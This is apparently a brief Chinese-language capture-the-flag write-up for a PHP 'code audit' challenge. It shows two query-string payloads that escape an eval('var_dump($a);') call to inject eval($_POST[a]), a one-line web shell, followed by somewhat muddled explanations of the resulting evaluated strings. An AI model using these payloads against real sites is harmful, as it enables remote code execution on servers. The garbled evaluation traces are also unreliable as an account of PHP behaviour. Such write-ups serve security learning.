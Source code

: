## code audit challenges 2

分类：脚本开发

## write-up

我们可以构造如下的语句：

`payload1:?hello=);eval($_POST[a]);//`

这儿var_dump($a);后的结果为

`string(20) ");eval($_POST[a]);//"`

那么eval("var_dump($a);");的结果为

`eval(string(20) ");eval($_POST[a]);//");`

`payload2:?hello=);eval($_POST[a]`

var_dump($a)的结果

`string(16) ");eval($_POST[a]"`

那么eval("var_dump($a);");的结果为

`eval("string(16) ");eval($_POST[a]"");`
